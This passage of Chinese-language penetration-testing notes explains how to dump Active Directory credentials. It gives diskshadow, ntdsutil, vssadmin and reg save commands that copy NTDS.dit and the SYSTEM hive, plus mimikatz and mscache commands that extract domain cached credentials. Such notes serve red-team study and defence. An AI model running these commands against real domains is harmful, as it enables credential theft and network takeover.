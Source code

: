 需要注意的是，DiskShadow 二进制文件需要从 C:\Windows\System32 路径执行。如果从其它路径调用它，脚本将无法正确执行。
```
diskshadow.exe /s c:\diskshadow.txt
```

直接从解释器运行以下命令，将列出系统的所有可用 volume shadow copy。
```
diskshadow
LIST SHADOWS ALL
```

SYSTEM 注册表 hive 也应该被复制，因为其包含了解密 NTDS 文件内容所需的密钥。
```
reg.exe save hklm\system c:\exfil\system.bak
```

**ntdsutil**
```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```
它将为我们生成两个新文件夹：Active Directory 和 Registry。NTDS.DIT 文件将被保存到 Active Directory 中，而 SAM 和 SYSTEM 文件则将被保存到 Registry 文件夹中。

**vssadmin**

volume shadow copy 是一个 Windows 命令行实用程序，管理员可以使用它备份计算机，卷以及文件（即使操作系统正在使用这些资源）。Volume Shadow Copy 作为一个服务运行，并要求文件系统的格式为 NTFS（默认情况下 windows 操作系统文件格式均为 NTFS）。从Windows 命令提示符执行以下命令，将会创建一个 C 盘的快照，这样我们就可以将其复制到另一个位置（如本地文件夹，网络文件夹或可移动介质）以获取它的访问权限。
```
vssadmin create shadow /for=C:
```
由于我们已经将 C 盘中的所有文件都复制到了另一个位置（HarddiskVolumeShadowCopy1），因此它们不会被操作系统直接使用，我们可以随意访问并复制其中的文件。使用 copy 命令将 NTDS.DIT 和 SYSTEM 文件，复制到本地名为 ShadowCopy 的驱动中的新建文件夹中。
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

---

### mscash

**相关文章**
- [你并不懂 Mimikatz Part 2 - MSCACHE](https://mp.weixin.qq.com/s/mTpYcHebvlERj9ek2_Pu8Q)

**利用手段**
- mimikatz
    ```bash
    lsadump::cache  # 获取 SysKey 用于解密 NLKM 和 MSCache(v2)
    ```
- [QAX-A-Team/mscache](https://github.com/QAX-A-Team/mscache) - a tool to manipulate dcc(domain cached credentials) in windows registry, based mainly on the work of mimikatz and impacket
    ```
    python mscache.py --security security --system system
    ```

---
